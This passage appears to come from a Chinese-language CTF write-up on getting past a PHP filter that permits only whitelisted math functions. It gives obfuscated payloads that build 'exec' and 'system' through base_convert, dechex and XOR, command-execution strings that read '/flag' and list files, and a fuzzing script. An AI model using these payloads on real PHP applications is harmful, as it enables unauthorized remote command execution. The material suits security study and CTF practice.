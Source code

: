 ````

```php
base_convert(696468,10,36) => "exec"
$pi(8768397090111664438,10,30) => "getallheaders"
exec(getallheaders(){1})
//操作xx和yy，中间用逗号隔开，echo都能输出
echo xx,yy
```

* `getallheaders` — Fetch all HTTP request headers

[![D91pVK.md.png](https://s3.ax1x.com/2020/11/13/D91pVK.md.png)](https://imgchr.com/i/D91pVK)

经测试，这里列目录的时候只能显示一个文件名，故可以base64编码后输出。

```
1: ls|base64
```

**方法3**

直接 `cat f*`

```php
//exec('hex2bin(dechex(109270211257898))') => exec('cat f*')
($pi=base_convert)(22950,23,34)($pi(76478043844,9,34)(dechex(109270211257898)))
//system('cat'.dechex(16)^asinh^pi) => system('cat *')
base_convert(1751504350,10,36)(base_convert(15941,10,36).(dechex(16)^asinh^pi))
```

**方法4**

前面都是利用白名单的数学函数将数字转成字符串，其实也可以异或构造
 这是fuzz脚本

```php
<?php
$payload = ['abs', 'acos', 'acosh', 'asin', 'asinh', 'atan2', 'atan', 'atanh',  'bindec', 'ceil', 'cos', 'cosh', 'decbin' , 'decoct', 'deg2rad', 'exp', 'expm1', 'floor', 'fmod', 'getrandmax', 'hexdec', 'hypot', 'is_finite', 'is_infinite', 'is_nan', 'lcg_value', 'log10', 'log1p', 'log', 'max', 'min', 'mt_getrandmax', 'mt_rand', 'mt_srand', 'octdec', 'pi', 'pow', 'rad2deg', 'rand', 'round', 'sin', 'sinh', 'sqrt', 'srand', 'tan', 'tanh'];
for($k=1;$k<=sizeof($payload);$k++){
    for($i = 0;$i < 9; $i++){
        for($j = 0;$j <=9;$j++){
            $exp = $payload[$k] ^ $i.$j;
            echo($payload[$k]."^$i$j"."==>$exp");
            echo "<br />";
        }
    }
}
```

```
$pi=(is_nan^(6).(4)).(tan^(1).(5));$pi=$$pi;$pi{0}($pi{1})&0=system&1=cat%20/flag
```





https://www.cnblogs.com/wrnan/p/13765680.html

https://blog.csdn.net/miuzzx

````